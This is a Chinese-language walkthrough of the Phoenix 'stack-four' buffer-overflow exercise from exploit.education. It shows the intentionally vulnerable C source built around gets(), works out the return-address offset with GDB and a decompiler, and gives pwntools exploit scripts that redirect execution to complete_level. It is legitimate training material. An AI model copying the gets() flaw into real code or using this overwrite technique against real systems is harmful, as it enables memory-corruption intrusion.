









# STACK FOUR

Stack Four takes a look at what can happen when you can overwrite the saved instruction pointer (standard buffer overflow).

**Hints**

- The saved instruction pointer is not necessarily directly after the end of variable allocations – things like compiler padding can increase the size. [Did you know that some architectures may not save the return address on the stack in all cases?](https://en.wikipedia.org/wiki/Link_register)
- GDB supports “run < my_file” to direct input from my_file into the program.

```c
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

这个题目有点意思，用了 `__builtin_return_address(0); ` 这是 gcc 的内建函数，看起来就像是和返回地址相关的

查了一下 via：http://blog.chinaunix.net/uid-26817832-id-3351553.html

`__builtin_return_address(0)` 的含义是，得到当前函数返回地址

`__builtin_return_address(1)` 的含义是，得到当前函数的调用者的返回地址

gdb 调试看看



到调用  `start_level` 留意下，`call` 的下一条指令的地址，这就是 `start_level` 调用完之后要回到这里继续执行，这个地址就是 `start_level` 的返回地址

放在 `start_level` 的栈上 `rbp + 8` 的位置

好了，我们直接步入 `start_level` 看看  `ret = __builtin_return_address(0);`，ret 是什么东西，是不是返回地址



可以看到，确实是把  `rbp + 8` 上的东西赋值给了 `rbp - 8`, `rbp - 8` 就是 `ret` 变量在栈上的位置

```asm
 ► 0x400649 <start_level+20>    mov    rax, qword ptr [rbp + 8]
   0x40064d <start_level+24>    mov    qword ptr [rbp - 8], rax
   0x400651 <start_level+28>    mov    rax, qword ptr [rbp - 8]
```


可以看到，确实是把  `start_level` 的返回地址赋值给了 ret

好了，回到正题，实际上我们反编译出来的是这样的

`local_res0` 就是返回地址



我们看到的 

`local_10`  其实就是源码里面的 `ret` 变量，它位于：`rbp - 0x10 + 8`， :8 是加 8 的意思，其实就是 `rbp - 8`，这个地方是存的返回地址，然后用 `printf("and will be returning to %p\n", ret);` 打印出来（其实这个不用管）

我们的目的是调用 `complete_level` 所以我们只需要把 `start_level`  返回地址覆盖成 `complete_level` 的地址就可以

看一下，漏洞点就在

```c
gets(local_58);
```



我们可以无限（其实是有限制的，比如终端的限制什么的，但是，上限是一个很大的值，反正就是可以输入很多就是了）写入 `local_58` 

因为这一次我们要覆盖的地方是函数的返回地址，而不是栈上的变量，返回地址位于 `rbp + 8`

好了，现在看一下 local_58 的地址：



说实话，在这里的时候我被演了，没仔细看，以为  `local_58`  位于 `rbp - 0x58`，我直接填充了`0x58 + 0x8`，返回地址直接变成 `0x4141414141414141`，看了 gets(local_58); 的汇编才知道，其实是从 `rbp - 0x50` 开始写入的。

所以，要覆盖的地方位于  `rbp + 8` 从 `rbp - 0x50` 开始覆盖，记住还有一个 rbp 要填充（8 Bytes），所以就是 `0x50 + 0x8`，你会发现我怎么不加  `rbp + 8` 的那个 8 了，其实越过 `rbp` 以后地址就是往高的地方增长了（我懒得描述了，看图吧）

填充长度：`0x58`

via :https://bbs.pediy.com/thread-200575.htm 



拿到 `complete_level` 的地址 ：`0x000000000040061d`



写 payload：

```python
from pwn import *

complete_level = 0x000000000040061d
exp = "A" * (0x58)
exp += p64(complete_level)

print(exp)
```

我就不用 procces 了（我知道 pwntools 有这个东西），原本我还想手动来着，算了

一样的：

```python
from pwn import *

p = process("./stack-four")
complete_level = 0x000000000040061d
exp = "A" * (0x58)
exp += p64(complete_level)
p.sendline(exp)
p.interactive()
```



pwn ！